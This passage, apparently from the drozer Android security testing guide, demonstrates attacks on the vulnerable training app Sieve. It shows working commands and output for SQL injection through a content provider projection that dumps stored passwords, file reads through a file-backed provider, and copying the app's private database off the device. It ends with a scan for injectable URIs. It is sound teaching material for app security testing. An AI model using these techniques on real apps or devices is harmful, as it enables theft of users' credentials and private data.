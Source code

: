 Android returns a very verbose error message, showing the entire query that it tried to execute. 

We can fully exploit this vulnerability to list all tables in the database:

```
dz> run app.provider.query content://com.withsecure.example.sieve.provider.DBContentProvider/Passwords/ --projection "* from key;--"
Attempting to run shell module
| Password           | pin  |
| yaypasswordyay1234 | 1234 |
```

### 3.5.3 File System-backed Content Provider

A content provider can provide access to the underlying file system. This allows apps to share files, where the Android sandbox would otherwise prevent it. 

Since we can reasonably assume that FileBackupProvider is a file system-backed content provider and that the path component represents the location of the file we want to open, we can easily guess the content URIs for this and use a drozer module to read the files:

```
dz> run app.provider.read content://com.withsecure.example.sieve.provider.FileBackupProvider/etc/hosts
Attempting to run shell module
127.0.0.1       localhost
::1             ip6-localhost
```

Reading the `/etc/hosts` file is not a big problem (it is world-readable anyway) but having discovered the path to the application’s data directory in Section 3.2 we can go after more sensitive information:

```
dz> run app.provider.download content://com.withsecure.example.sieve.provider.FileBackupProvider/data/data/com.withsecure.example.sieve/databases/database.db /tmp/database.db
Attempting to run shell module
Written 24576 bytes
```

This has copied the application’s database from the device to the local machine, where it can be browsed with sqlite to extract not only the user’s encrypted passwords, but also their master password.

### 3.5.4 Content Provider Vulnerabilities

We have seen that content providers can be vulnerable to both SQL injection and directory traversal. drozer offers modules to automatically test for simple cases of these vulnerabilities:

```
dz> run scanner.provider.injection -a com.withsecure.example.sieve
Attempting to run shell module
Scanning com.withsecure.example.sieve...
Not Vulnerable:
  content://com.withsecure.example.sieve.androidx-startup
  content://com.withsecure.example.sieve.provider.DBContentProvider/
  content://com.withsecure.example.sieve.provider.DBContentProvider/Keys
  content://com.withsecure.example.sieve.provider.FileBackupProvider/
  content://com.withsecure.example.sieve.androidx-startup/
  content://com.withsecure.example.sieve.provider.DBContentProvider
  content://com.withsecure.example.sieve.provider.FileBackupProvider

Injection in Projection:
  content://com.withsecure.example.sieve.provider.DBContentProvider/Passwords/
  content://com.withsecure.example.sieve.provider.DBContentProvider/Passwords
  content://com.withsecure.example.sieve.provider.DBContentProvider/Keys/

Injection in Selection:
  content://com.withsecure.example.sieve.provider.DBContentProvider/Passwords/
```